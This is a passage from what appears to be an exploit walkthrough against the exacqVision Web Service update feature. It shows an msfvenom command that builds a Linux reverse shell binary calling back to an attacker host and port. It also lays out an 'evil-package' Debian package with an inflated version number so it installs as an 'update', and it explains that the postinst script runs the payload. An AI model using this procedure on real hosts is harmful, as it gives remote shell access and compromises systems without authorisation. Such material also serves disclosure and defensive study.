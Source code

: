 ### 3. Creating a Malicious Debian Package
Next, a Debian package file is created that will be installed (and subsequently executed) as an "update" on the exacqVision Web Service host. In this example, a Debian package file will be created that includes an ELF 32-bit binary reverse shell payload that was generated with `msfvenom`. The `msfvenom` command used to generate the reverse shell payload and the resulting output is shown below.

```
┌─[root@parrot]─[~/demo]
└──╼ #msfvenom -a x86 --platform linux -p linux/x86/shell_reverse_tcp LHOST=10.0.0.11 LPORT=4444 -f elf -o shell_reverse_tcp
No encoder or badchars specified, outputting raw payload
Payload size: 68 bytes
Final size of elf file: 152 bytes
Saved as: shell_reverse_tcp
```

The Debian package directory/file structure used in this example includes an `evil-package` directory that contains a `tmp` subdirectory and a required `DEBIAN` subdirectory. Within the required `evil-package/DEBIAN` directory is the required `control` file as well as an executable `postinst` file that will be used to execute commands and, in this case, execute the `shell_reverse_tcp` binary on the target system. The `shell_reverse_tcp` payload generated previously is moved to the `evil-package/tmp` directory. The output below shows the previously described package directory/file structure.

```
┌─[root@parrot]─[~/demo]
└──╼ #tree
.
└── evil-package
    ├── DEBIAN
    │   ├── control
    │   └── postinst
    └── tmp
        └── shell_reverse_tcp

3 directories, 3 files
```

Put briefly, the `DEBIAN/control` file is a required file within a Debian package that acts as the binary package's master control file. Each `DEBIAN/control` file requires a `Package` field, a `Version` field, an `Architecture` field, a `Maintainer` field, and a `Description` field.  The file format of the `control` file is explained in further detail in `man deb-control`. The content of the `control` file in this example is shown below.

```
Package: evil-package
Version: 99.99.99.9999
Architecture: all 
Maintainer: John Doe 
Description: lorem ipsum
```

From `man deb-postinst`, a package can perform several post-installation actions via maintainer scripts, by including an executable `postinst` file in its control archive (i.e. `DEBIAN/postinst` during package creation). Whatever commands are included in the `postinst` file will be executed on the system post-installation of the Debian package. 
